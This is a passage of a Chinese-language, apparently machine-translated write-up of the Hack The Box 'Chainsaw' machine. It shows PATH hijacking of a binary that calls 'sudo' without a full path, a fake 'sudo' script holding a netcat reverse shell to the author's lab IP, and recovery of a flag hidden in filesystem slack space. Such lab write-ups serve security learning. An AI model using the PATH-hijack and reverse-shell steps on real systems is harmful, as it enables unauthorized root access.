

我也在链锯俱乐部二进制上运行字符串:



输出中有一行有趣的内容。

```
**sudo** -i -u root /root/ChainsawClub/dist/ChainsawClub/ChainsawClub
```

这是不合适的，因为我可以创建一个名为“sudo”的文件，将它添加到 PATH 变量中，这样当我运行 ChainsawClub 二进制文件并调用 sudo 时，它将查找任何名为 sudo 的二进制文件，从变量 PATH 的左到右排列优先级。使用 env 检查路径:

```
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

我首先将工作目录包含到路径中:

```
export PATH=.:$PATH
```

通过 env 命令检查修改后的路径:

```
PATH=.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

请注意，路径前面带有“.”



然后，我设置 tcpdump 来监听 tun0 接口上的 ICMP 数据包，并运行二进制链锯俱乐部:



请注意，我 ping 了我的机器。然后我检查机器上是否安装了 nc (netcat)。然后，我尝试获得一个反向 shell 来检查我是否能够:



因为我能够以用户 bobby 的身份获得连接，所以我将“sudo”文件的内容编辑为:

```
#!/bin/bashnc -e /bin/sh 10.10.14.72 9001
```



现在，当我运行 ChainsawClub 二进制文件时，当它调用“sudo”而不是调用/usr/bin/sudo 时，它调用当前目录中的 sudo。



现在我得到了一个贝壳。当我运行命令 id 时，我看到我的 uid=0(root)。



当我读取 root.txt 时，内容不是 root 标志:

```
root@chainsaw:/root# cat root.txt
cat root.txt
Mine deeper to get rewarded with root coin (RTC)...
```

## 额外挑战:

因为我是根用户，但是仍然没有根标志，所以我寻找找到它的方法。我首先设置了一个合适的 shell:



然后，我寻找有趣的二进制文件，它们可以提示应该做什么。过了一段时间，我能够通过使用 bmap 和使用 slack 模式查看根标志来找到根标志。你可以在这里阅读更多关于 slack space 的信息:[https://www.security-box.org/article35/slack-space-hiding](https://www.security-box.org/article35/slack-space-hiding)

基本上，当创建一个文件时，一个“块”专用于该文件。将内容放入文件会增加文件大小并减小松弛区大小(只要内容不会完全占用块大小)。它可以用这个公式来表示:

```
block size = file size + slack size
```



现在我可以看到根旗了..

这就是我如何从破解盒子中破解电锯的。我学到了很多解决这个盒子的东西，所需的技术对我来说很新(与以太坊客户端、IPFS 和 Bmap 松弛空间隐藏的交互)。

我希望你能从中学到一些东西。感谢阅读我的文章！干杯！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)